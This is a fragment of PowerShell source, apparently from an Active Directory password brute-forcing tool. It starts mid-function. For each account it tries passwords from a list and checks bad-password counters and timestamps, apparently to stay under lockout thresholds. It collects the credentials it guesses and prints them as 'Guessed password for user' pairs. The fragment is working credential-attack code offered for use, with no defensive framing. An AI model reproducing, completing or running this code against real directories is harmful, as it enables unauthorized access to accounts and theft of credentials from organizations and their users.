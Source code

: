```powershell
                        }
                        Else
                        {
                            # Verbose-log if $badpwdtime in null. Possible "Cannot index into a null array" error.
                            Write-Verbose "- no badpwdtime exception '$samaccountnname':'$badpwdcount':'$badpwdtime'"
	
	
	
				   # Try the auth with current password
        	                $auth = Perform-Authenticate $samaccountnname $passwords[$numTry[$i]]
			
                                If ($auth -eq $true)
                                {
                                    Write-Host "Guessed password for user: '$samaccountnname' = '$($passwords[$numTry[$i]])'" -BackgroundColor DarkGreen
                                    $results += $samaccountnname
                                    $results += $passwords[$numTry[$i]]
                                    $usersCracked[$i] = $true
                                    $done[$i] = $true
                                }
                                Else 
                                {
                                    $numTry[$i] += 1
                                    If($numTry[$i] -eq $passwords.Length) {$done[$i] = $true}
                                }
			 
			 
			    
                        } # Badpwdtime-check if

                    } # Badwpdcount-check if

                } # Done-check if

            } # User-cracked if

        } # User loop

        # Check if the bruteforce is done so the while loop can be terminated
        $amount = 0
        For ($j = 0; $j -lt $done.Length; $j += 1)
        {
            If ($done[$j] -eq $true) {$amount += 1}
        }

        If ($amount -eq $done.Length) {Break}

   # Take a nap for a second
   Start-Sleep -m 1000

   } # Main While loop

   If ($results.Length -gt 0)
   {
       Write-Host "Users guessed are:"
       For($i = 0; $i -lt $results.Length; $i += 2) {Write-Host " '$($results[$i])' with password: '$($results[$i + 1])'"}
   }
   Else {Write-Host "No passwords were guessed."}
}

```